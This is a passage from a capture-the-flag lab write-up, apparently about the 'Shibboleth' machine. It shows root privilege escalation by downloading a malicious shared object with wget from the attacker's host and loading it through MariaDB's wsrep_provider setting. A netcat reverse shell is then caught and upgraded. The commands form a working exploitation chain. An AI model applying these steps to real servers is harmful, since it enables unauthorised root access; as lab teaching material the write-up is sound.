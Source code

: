 I’ll move this to Shibboleth by starting a Python webserver (`python3 -m http.server 80`) on my VM in the folder with `rev.so` and then requesting it with `wget`:

```

ipmi-svc@shibboleth:/dev/shm$ wget 10.10.14.6/rev.so
--2022-03-31 13:40:35--  http://10.10.14.6/rev.so
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘rev.so’

rev.so                                                 100%[========================================================>]     476  --.-KB/s    in 0.001s  

2022-03-31 13:40:35 (509 KB/s) - ‘rev.so’ saved [476/476]

```

#### Execute

Now I just run the command in `mysql` to load the so which executes it:

```

MariaDB [(none)]> SET GLOBAL wsrep_provider="/dev/shm/rev.so";
ERROR 2013 (HY000): Lost connection to MySQL server during query

```

At my host, there’s a connection:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.124 48960

```

It’s raw, there’s no prompt, but I can run commands:

```

id
uid=0(root) gid=0(root) groups=0(root)

```

Shell upgrade makes it nicer:

```

script /dev/null -c bash
Script started, file is /dev/null
root@shibboleth:/var/lib/mysql# ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@shibboleth:/var/lib/mysql#

```
